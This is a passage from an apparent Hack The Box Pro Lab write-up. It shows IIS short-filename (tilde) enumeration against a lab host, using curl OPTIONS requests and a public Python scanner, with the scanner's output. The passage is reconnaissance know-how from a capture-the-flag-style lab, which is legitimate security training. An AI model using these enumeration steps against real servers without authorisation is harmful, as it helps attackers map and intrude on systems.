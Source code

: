 I tried each character and got the next character to be s, as seen below.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O]
└─$ curl -s -I -X OPTIONS 'http://10.13.38.11/ta*~1*/.aspx'
HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/10.0
Public: OPTIONS, TRACE, GET, HEAD, POST
Date: Mon, 07 Oct 2024 02:14:08 GMT
Content-Length: 0

                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O]
└─$ curl -s -I -X OPTIONS 'http://10.13.38.11/tem*~1*/.aspx'
HTTP/1.1 404 Not Found
Content-Type: text/html
Server: Microsoft-IIS/10.0
Date: Mon, 07 Oct 2024 02:14:15 GMT
Content-Length: 1245

```

However, this does not work for  all directories / files. It does not find `/admin`,likely due to permissions. I found a couple of tools to do the brute force. [This tool](https://github.com/irsdl/IIS-ShortName-Scanner) is the one associated with the research paper above, but it’s in Java, so I kept looking and found [this Python scanner](https://github.com/lijiejie/IIS_shortname_Scanner). When running it on the root directory, it found some of the stuff in it:

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ python3 iis_shortname_scan.py  http://10.13.38.11/ 
Server is vulnerable, please wait, scanning...
[+] /d~1.*      [scan in progress]
[+] /n~1.*      [scan in progress]
[+] /t~1.*      [scan in progress]
[+] /w~1.*      [scan in progress]
[+] /ds~1.*     [scan in progress]
[+] /ne~1.*     [scan in progress]
[+] /te~1.*     [scan in progress]
[+] /tr~1.*     [scan in progress]
[+] /we~1.*     [scan in progress]
[+] /ds_~1.*    [scan in progress]
[+] /new~1.*    [scan in progress]
[+] /tem~1.*    [scan in progress]
[+] /tra~1.*    [scan in progress]
[+] /web~1.*    [scan in progress]
[+] /ds_s~1.*   [scan in progress]
[+] /newf~1.*   [scan in progress]
[+] /temp~1.*   [scan in progress]
[+] /tras~1.*   [scan in progress]
[+] /ds_st~1.*  [scan in progress]
[+] /newfo~1.*  [scan in progress]
[+] /templ~1.*  [scan in progress]
[+] /trash~1.*  [scan in progress]
[+] /ds_sto~1.* [scan in progress]
[+] /newfol~1.* [scan in progress]
[+] /templa~1.* [scan in progress]
[+] /trashe~1.* [scan in progress]
[+] /ds_sto~1   [scan in progress]
[+] Directory /ds_sto~1 [Done]
[+] /newfol~1   [scan in progress]
[+] Directory /newfol~1 [Done]
[+] /templa~1   [scan in progress]
[+] Directory /templa~1 [Done]
```